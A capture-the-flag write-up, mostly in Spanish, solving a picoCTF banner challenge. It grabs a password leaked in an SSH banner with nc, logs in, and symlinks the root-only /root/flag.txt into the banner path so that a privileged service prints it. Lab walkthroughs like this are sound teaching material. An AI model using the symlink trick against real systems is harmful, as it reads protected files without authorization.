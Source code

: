 ## Description

Can you abuse the banner?

The server has been leaking some crucial information on `tethys.picoctf.net 58334`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 62033`. From the above information abuse the machine and find the flag in the /root directory.


## Hint

1. Do you know about symlinks?
2. Maybe some small password cracking or guessing

## Solution

La contraseña se obtiene al conectarse al servidor que ha estad filtrándose: 

```
nc tethys.picoctf.net 57125

Salida: SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

Con la contraseña que se ha recibido me conecto al servidor: 

```
┌──(lalosan㉿lalosan)-[~/exam1p1]
└─$ nc tethys.picoctf.net 62033
*************************************
**************WELCOME****************
*************************************
what is the password? 
My_Passw@rd_@1234}
```

Contesto las siguientes preguntas para acceder al shell:

```
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```

Ahora debemos ir al archivo de la bandera que se encuantr naen el cd/ root. Y observar si podemos leerlo.

```
player@challenge:/root$ cat flag 
cat flag 
cat: flag: No such file or directory
player@challenge:/root$ cat flag.txt    
cat flag.txt
cat: flag.txt: Permission denied

```

Se observa que no tenemos permiso para ver el archivo flag.txt. En las pistas nos dice que usamos los enlaces simbólicos, enlazando la flag para que ocupe el lugar del banner.

```
player@challenge:/root$ ln -s /root/flag.txt ~/banner
ln -s /root/flag.txt ~/banner
player@challenge:/root$ cat banner
cat banner
cat: banner: No such file or directory

```

Nos desconectamos y nos volvemos a conectar.

```
┌──(lalosan㉿lalosan)-[~/exam1p1]
└─$ nc tethys.picoctf.net 60860
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}
```
La aplicación estaba leyendo el banner desde el directorio home, por lo tanto se pude asumir que el programa tenía privilegios para leer el archivo al enlazarnos simbólicamente.
